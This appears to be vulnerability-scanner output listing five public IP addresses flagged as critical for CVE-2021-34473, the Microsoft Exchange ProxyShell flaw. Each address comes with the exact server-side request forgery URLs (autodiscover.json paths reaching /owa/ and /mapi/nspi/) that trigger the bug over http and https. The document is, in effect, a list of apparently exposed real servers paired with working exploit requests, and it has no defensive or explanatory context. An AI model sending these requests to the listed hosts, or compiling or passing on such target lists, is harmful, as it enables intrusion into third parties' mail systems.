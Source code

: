 ## 185.6.124.171  
  
---  
[CVE-2021-34473] [http] [critical] http://185.6.124.171/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] http://185.6.124.171/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 217.107.99.115  
  
---  
[CVE-2021-34473] [http] [critical] http://217.107.99.115/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] http://217.107.99.115/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 62.173.145.199  
  
---  
[CVE-2021-34473] [http] [critical] http://62.173.145.199/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] http://62.173.145.199/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://62.173.145.199/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://62.173.145.199/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 81.26.145.178  
  
---  
[CVE-2021-34473] [http] [critical] http://81.26.145.178/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] http://81.26.145.178/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://81.26.145.178/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://81.26.145.178/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 85.117.79.107  
  
---  
[CVE-2021-34473] [http] [critical] http://85.117.79.107/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  